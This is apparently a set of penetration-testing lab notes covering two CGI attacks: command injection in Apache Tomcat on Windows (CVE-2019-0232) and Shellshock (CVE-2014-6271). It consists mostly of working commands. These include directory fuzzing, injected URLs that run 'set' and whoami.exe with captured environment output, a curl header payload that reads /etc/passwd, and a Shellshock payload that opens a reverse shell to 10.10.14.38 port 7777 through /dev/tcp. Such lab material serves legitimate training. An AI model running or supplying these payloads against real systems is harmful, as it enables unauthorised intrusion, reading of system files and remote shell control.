

# **Attacking Tomcat CGI**

## **Finding a CGI script - Using FFuF**

### **Fuzzing Extentions - .CMD**

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

### **Fuzzing Extentions - .BAT**

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

## **Exploitation -** CVE-2019-0232 (W**indows)**

```bash
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

If this command does not return anything, you can try retrieving a list of environmental variables by calling the `set` command:

```
# http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
```

`PATH` variable has been unset, so we will need to hardcode paths in requests:

```bash
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

Or with URL Encoding

```bash
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

# **Attacking CGI Applications - Shellshock**

CGI scripts and programs are kept in the `/CGI-bin` directory on a web server



- A directory is created on the web server containing the CGI scripts/applications. This directory is typically called `CGI-bin`.
- The web application user sends a request to the server via a URL, i.e, https://acme.com/cgi-bin/newchiscript.pl
- The server runs the script and passed the resultant output back to the web client

## **Shellshock via CGI (**CVE-2014-6271)

The Shellshock vulnerability allows an attacker to exploit old versions of Bash that save environment variables incorrectly. 

### **Enumeration - Gobuster**

```bash
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

===============================================================
2023/03/23 09:26:04 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
                                             
===============================================================
2023/03/23 09:26:29 Finished
```

### **Confirming the Vulnerability**

```bash
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

### **Exploitation to Reverse Shell Access**

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```
